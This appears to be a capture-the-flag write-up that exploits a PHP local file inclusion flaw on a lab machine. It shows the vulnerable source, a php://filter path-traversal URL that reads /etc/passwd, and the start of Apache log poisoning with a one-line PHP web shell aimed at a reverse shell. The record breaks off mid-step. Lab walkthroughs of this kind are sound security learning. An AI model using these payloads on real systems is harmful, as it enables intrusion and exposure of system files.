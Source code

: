     1    <?php
    2        function containsStr($str, $substr) {
    3            return strpos($str, $substr) !== false;
    4        }
    5        
    6        $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
    7            
    8            if(isset($_GET['view'])) {
    9                
    10               if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
    11                   echo 'Here you go!';
    12                   include $_GET['view'] . $ext;
    13               }
    14               else {
    15                   echo 'Sorry, only dogs or cats are allowed.';
    16               }
    17           }
    18   ?>

We can see:

- If the "ext" parameter does not exist in the URL, then put in ".php" (line 6).

- If the "view" parameter is set in the URL, then (line 8):

    - If The view contains the substring "dog" or "cat" (line 10), echo 'Here you go!' (line 11) and include dog.php or cat.php (line 12).

    - Otherwise, echo 'Sorry, only dogs or cats are allowed.' (line 15). 

So now we can pull, e.g. /etc/passwd like so:

http://10.10.134.19/?view=php://filter/convert.base64-encode/resource=./dog/../.././../../../etc/passwd&ext

Output: passwd-base64.txt

and we can decode as follows:

    base64 -d passwd-base64.txt > passwd.txt

There are no obvious candidates in there, so next step would be to try and get a reverse shell on there.

https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1

We're going to add the following payload, to the following log file in order to run commands:

Payload: <?php system($_GET['c']); ?>
LogFile: /var/log/apache2/access.log

1. Send GET request using BurpSuite (Put it in the User-Agent field):

